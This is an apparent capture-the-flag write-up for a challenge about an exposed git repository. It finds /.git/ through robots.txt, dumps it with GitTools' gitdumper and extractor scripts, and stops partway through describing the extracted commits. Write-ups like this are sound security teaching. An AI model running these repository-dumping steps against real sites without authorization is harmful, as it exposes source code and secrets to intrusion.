 # Writeup
This challenge is related to git
### Challenge available at `http://54.221.119.174/`

If you try `http://54.221.119.174/robots.txt` you will see ```/.git/``` is available 

Let use GitTools to pull ```/.git/``` folder

```./GitTools/Dumper/gitdumper.sh http://54.221.119.174/.git/ repo```

After that use extractor tool to extract 

```./GitTools/Extractor/extractor.sh repo doom```

We will have two folders with name 
```
0-d6f105ce9f43597523b47a81bd80d401f2b0b41a
1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8
```
And in folder 1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8 we have

